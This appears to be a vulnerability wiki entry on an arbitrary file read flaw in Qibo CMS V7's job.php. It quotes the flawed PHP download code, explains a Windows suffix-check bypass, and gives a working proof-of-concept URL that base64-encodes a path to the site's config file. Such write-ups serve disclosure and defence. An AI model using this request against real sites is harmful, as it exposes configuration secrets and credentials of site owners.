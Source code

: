 # Qibo CMS V7 job.php arbitrary file reading vulnerability

## Vulnerability Description

The URL parameters of QiboCMS V7 version/do/job.php page are not filtered strictly, resulting in downloading any system files and obtaining system sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Qibo CMS V7</span>

## Network surveying and mapping



## Vulnerability reappears

Vulnerability Analysis `/inc/job/download.php`

```javascript
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64 decoding, match the suffix. If it is ended with php, exit. In Windows, you can use xxx.ph< to bypass it and then download the file after a series of rules.

```javascript
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

Vulnerable POC

```javascript
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645791092460-d64578f5-21f6-4b40-ba48-0926f5e91dc3.png)


